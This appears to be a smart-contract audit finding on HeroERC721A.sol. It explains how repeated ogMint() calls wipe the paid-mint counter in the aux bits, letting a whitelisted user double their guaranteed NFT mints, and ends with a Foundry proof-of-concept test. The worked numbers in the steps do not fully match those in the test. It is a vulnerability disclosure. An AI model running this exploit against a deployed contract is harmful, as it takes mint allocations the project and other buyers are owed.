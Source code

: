 `HeroERC721A.sol` is an NFT contract, It guarantees the first phase **OG Phase** the whitelisted addresses will get:

- 1 Free Mint
- 2 Guaranteed Mints per **RING** (RING is NFT, so they take a Snapshot for holders)

`HeroERC721A.sol#ogMint()` function is how users mint tokens for OG whitelisted addresses.
Users who are eligible for the two types of OG mint have the flexibility to call `ogMint()` multiple times,
So they can take the free mint and the guaranteed mint in two different transactions.

Malicious users can take this privilege to mint double the number of Guaranteed Mints tokens by:

- 1. Call `ogMint()` and set `freeMint` to false and set `paidMintQty = 10` so `numOfRing = 5`.
     It mints 10 NFT and this is how the `aux` will be:

```
 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000
 1010 0000 0000 0000 0000 0000 0000
```

- 2. Call `ogMint()` and set `freeMint` to true and set `paidMintQty = 0`.
     It mints 1 NFT (the free one), this is how the `aux` will be:

```
 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000
 0000 0000 0000 0000 0000 0000 1000
```

We can see that [24-63] is now empty. This is because `_ogMint()` deleted the old values in this step:

```solidity
 uint64 aux = (_getAux(to) >> 3) & 0x0fffff;
```

- 3. Call `ogMint()` and set `freeMint` to false and set `paidMintQty = 10` so `numOfRing = 5`
     It mints 10 NFT and the `aux` will be:

```
 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000
 1010 0000 0000 0000 0000 0000 1000
```

So, this Malicious has mint 20 from the OG paid mints when he only has 5 RING.

Note:
Aux Bit Layout
The aux is a 64-bit number with the following bit layout:

[0-1]: Tracking `publicMint` status
[2-2]: Hero list mint tracking
[3-23]: Tracking the number of OG free mints (capacity : 2\***\*20 -1)
[24-63]: Tracking the number of OG paid mints (capacity : 2\*\***40 -1)

**POC:**

```solidity
    function testMinting() public {
        // og mint
        vm.warp(uint256(hero721.OG_MINT_TIMESTAMP()));
        bytes32[] memory b = new bytes32[](3);
        b[0] = bytes32(0xf6cad13a027fce5304a21819a989779362a06a4fbd07521b18209cd6ddc4e41c);
        b[1] = bytes32(0xc41bc74587e0ba059b462f9e0d8a6abd430876040e77e050ca8ec3f11d8bab38);
        b[2] = bytes32(0x31d93cf3542a493f93d6d5304dc473819fb4d0bf018b05c910f1802ea619ab5d);

        hero721.ogMint{value: 4e17}(ALICE, false, 4, 2, b);

        hero721.ogMint{value: 0}(ALICE, true, 0, 2, b);

        hero721.ogMint{value: 4e17}(ALICE, false, 4, 2, b);
        assertEq(hero721.balanceOf(ALICE), 10);
    }

```
